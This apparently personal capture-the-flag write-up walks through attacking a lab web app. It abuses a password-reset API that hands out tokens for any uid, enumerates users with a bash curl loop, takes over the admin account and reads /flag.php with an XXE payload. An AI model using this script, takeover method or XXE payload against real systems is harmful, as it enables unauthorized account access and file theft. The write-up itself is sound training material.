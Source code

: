 After logging in I'm presented with this page:
![[Pasted image 20240516173837.png]]

## Exploiting the Password Resetting Functionality

The password reset page:
![[Pasted image 20240516174058.png]]

Intercepting the request with burp:
![[Pasted image 20240516174157.png]]

When sending the request with different uids, I get different tokens:

| uid | token                                |
| --- | ------------------------------------ |
| 74  | e51a8a14-17ac-11ec-8e67-a3c050fe0c26 |
| 75  | e51a8a3c-17ac-11ec-8e68-7fe51c0c175e |
| 1   | e51a7c5e-17ac-11ec-8e1e-2f59f27bf33c |
| 2   | e51a7dc6-17ac-11ec-8e1f-df8a04f4691d |
| 3   | e51a7df8-17ac-11ec-8e20-37f52352c5ab |
|     |                                      |

When I forward the API request, there is another 1 to change the password:
![[Pasted image 20240516181103.png]]

Turns out I can change the password of a user with specific uid, using the token I got from the API and a get request:
![[Pasted image 20240516181231.png]]

## Enumerating Users

By changing the UID of the API call in requests I can get the usernames:
![[Pasted image 20240516181508.png]]

Wrote the following script to get details of all users:
```bash
#!/bin/bash

for i in {1..100}; do
        details=$(curl -is -X GET http://83.136.251.226:43671/api.php/user/$i)
        printf "$details\n\n" | grep username
        printf "\n"
done
```

Success:
![[Pasted image 20240516183506.png]]

Now I can login as any user with the list of usernames, and changing their password.

Found the administrator user:
![[Pasted image 20240516210406.png]]

Now I can reset the password of the user as shown before.

## XXE

The admin have an additional page to add events:
![[Pasted image 20240516210531.png]]

It uses XML data:
![[Pasted image 20240516210617.png]]

Got the flag using a simple XXE payload:
![[Pasted image 20240516211011.png]]

The payload:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
```